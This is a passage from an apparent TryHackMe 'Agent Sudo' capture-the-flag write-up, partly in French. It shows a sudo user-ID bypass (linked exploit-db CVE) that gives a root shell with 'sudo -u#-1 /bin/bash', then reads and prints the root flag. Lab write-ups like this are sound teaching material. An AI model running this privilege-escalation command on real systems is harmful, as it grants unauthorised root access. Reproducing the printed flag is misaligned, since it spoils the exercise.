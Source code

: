 ``` james@agent-sudo:~$ ls

## What is the root flag?
 
On exploite cette [CVE]https://www.exploit-db.com/exploits/47502

```james@agent-sudo:~$ sudo -u#-1 /bin/bash
[sudo] password for james: 
root@agent-sudo:~# whoami
root```

```root@agent-sudo:/# cd root/
root@agent-sudo:/root# ls
root.txt
root@agent-sudo:/root# cat root.txt 
To Mr.hacker,

Congratulation on rooting this box. This box was designed for TryHackMe. Tips, always update your machine. 

Your flag is 
b53a02f55b57d4439e3341834d70c062

By,
DesKel a.k.a Agent R
root@agent-sudo:/root#```

root flag : **b53a02f55b57d4439e3341834d70c062**

Agent R : **DesKel**

---
